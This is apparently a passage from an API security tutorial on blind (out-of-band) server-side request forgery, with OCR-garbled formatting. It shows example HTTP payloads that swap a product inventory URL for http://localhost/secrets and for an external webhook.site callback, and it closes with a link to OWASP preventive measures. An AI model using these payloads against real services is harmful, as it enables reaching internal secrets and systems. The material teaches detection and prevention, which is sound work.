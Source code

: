 - Out-of-Band (or Blind) SSRF takes place when a vulnerable server performs a request from user input but does not send a response back to the attacker indicating a successful attack.

```http

**Intercepted Request:**

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory":"http://store.com/api/v3/inventory/item/12345"_`

 }

**Attack**:

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory:"_**_§_****_http://localhost/secrets_****_§"_**`

} 

**Response:**

HTTP/1.1 200 OK  
headers...  
{}
```

Burp Suite Pro has a great tool called Burp Suite Collaborator. Collaborator can be leveraged to set up a web server that will provide us with the details of any requests that are made to our random URL.

```http

**Attack**:

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory":"_**_§[https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0](https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0)_****_§"_**`

 }

```
## [  OWASP Preventative Measures](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)
